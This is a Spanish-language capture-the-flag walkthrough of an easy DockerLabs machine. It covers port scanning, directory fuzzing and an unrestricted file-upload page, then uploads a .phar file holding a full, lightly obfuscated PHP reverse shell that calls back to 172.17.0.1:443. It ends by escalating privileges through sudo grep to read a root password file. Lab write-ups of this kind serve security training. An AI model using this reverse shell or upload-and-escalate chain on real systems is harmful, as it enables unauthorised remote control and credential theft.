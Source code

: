 Maquina: DockerLabs

Autor: El Pinguino de Mario

Dificultad: Facil

![Captura de pantalla 2024-12-21 175306](https://github.com/user-attachments/assets/a8fc8213-b60f-4290-b14e-a1a53916d91c)

ping 172.17.0.2 -c 1

![Captura de pantalla 2024-12-21 175339](https://github.com/user-attachments/assets/90787601-be3a-4d6a-aded-55e8b9e2c11b)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

![Captura de pantalla 2024-12-21 175432](https://github.com/user-attachments/assets/b7be60f6-63c2-49fd-b200-77ada5b1d11e)

Accederemos a la página web

172.17.0.2

![Captura de pantalla 2024-12-21 175504](https://github.com/user-attachments/assets/06e1f124-7c79-4f8a-adea-2b3403a39f00)

Aplicar Fuzzing para descubrir rutas y archivos con extensiones

gobuster dir -t 150 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

![Captura de pantalla 2024-12-21 180019](https://github.com/user-attachments/assets/6a179ae2-fbb5-4608-b5d6-d044856556e1)

Accedemos al archivo machine.php y descubrimos una página web que permite la subida de archivos

![Captura de pantalla 2024-12-21 180540](https://github.com/user-attachments/assets/b24893ca-07d9-4672-b973-2f8d07dcf121)

Intentamos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema

![Captura de pantalla 2024-12-21 180617](https://github.com/user-attachments/assets/67038c76-7f51-40ce-b5e6-5417c6673727)

Creamos un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd

    /*<?php /**/
      @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      if(!empty($dis)){
        $dis=preg_replace('/[, ]+/',',',$dis);
        $dis=explode(',',$dis);
        $dis=array_map('trim',$dis);
      }else{
        $dis=array();
      }
      
    $ipaddr='172.17.0.1';
    $port=443;

    if(!function_exists('WrisYTZ')){
      function WrisYTZ($c){
        global $dis;
        
      if (FALSE !== stristr(PHP_OS, 'win' )) {
        $c=$c." 2>&1\n";
      }
      $gPpr='is_callable';
      $WEBa='in_array';
      
      if($gPpr('passthru')&&!$WEBa('passthru',$dis)){
        ob_start();
        passthru($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($gPpr('system')&&!$WEBa('system',$dis)){
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($gPpr('shell_exec')&&!$WEBa('shell_exec',$dis)){
        $o=`$c`;
      }else
      if($gPpr('popen')&&!$WEBa('popen',$dis)){
        $fp=popen($c,'r');
        $o=NULL;
        if(is_resource($fp)){
          while(!feof($fp)){
            $o.=fread($fp,1024);
          }
        }
        @pclose($fp);
      }else
      if($gPpr('proc_open')&&!$WEBa('proc_open',$dis)){
        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
        $o=NULL;
        while(!feof($pipes[1])){
          $o.=fread($pipes[1],1024);
        }
        @proc_close($handle);
      }else
      if($gPpr('exec')&&!$WEBa('exec',$dis)){
        $o=array();
        exec($c,$o);
        $o=join(chr(10),$o).chr(10);
      }else
      {
        $o=0;
      }
    
        return $o;
      }
    }
    $nofuncs='no exec functions';
    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
      $s=@fsockopen("tcp://172.17.0.1",$port);
      while($c=fread($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=WrisYTZ(substr($c,0,-1));
          if($out===false){
            fwrite($s,$nofuncs);
            break;
          }
        }
        fwrite($s,$out);
      }
      fclose($s);
    }else{
      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
      @socket_connect($s,$ipaddr,$port);
      @socket_write($s,"socket_create");
      while($c=@socket_read($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=WrisYTZ(substr($c,0,-1));
          if($out===false){
            @socket_write($s,$nofuncs);
            break;
          }
        }
        @socket_write($s,$out,strlen($out));
      }
      @socket_close($s);
}

![Captura de pantalla 2024-12-21 181241](https://github.com/user-attachments/assets/d48255af-431b-4bbb-8ea7-1d2c5f965b0e)

Subimos el archivo .phar y confirmaremos que se ha cargado correctamente

172.17.0.2/upload.php

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 443 utilizando el siguiente comando:

nc -nvlp 443

hacemos click en el archivo para abrirlo

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema

Al ejecutar sudo -l, veremos que podemos ejecutar los binarios /usr/bin/cut y /usr/bin/grep como usuario root sin necesidad de proporcionar una contraseña

![Captura de pantalla 2024-12-21 181544](https://github.com/user-attachments/assets/df492902-a68b-4240-b039-e6230db4720d)

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

find / *.txt 2>/dev/null

veremos que hay un archivo en /opt/ llamado nota.txt

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio /root/clave.txt. Menos mal que nadie tiene permisos para acceder a ella

tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo /root/clave.txt de la siguiente manera:

![Captura de pantalla 2024-12-21 181646](https://github.com/user-attachments/assets/35c5c359-1470-40a2-9bcc-cf7ccc59ff19)

sudo grep '' /root/clave.txt

![Captura de pantalla 2024-12-21 181724](https://github.com/user-attachments/assets/2ece230f-d4a2-4bcd-badc-56087964e254)

Leemos el archivo, encontramos una posible contraseña: dockerlabsmolamogollon123.

Cambiamos al usuario root y utilizamos la contraseña encontrada

whoami
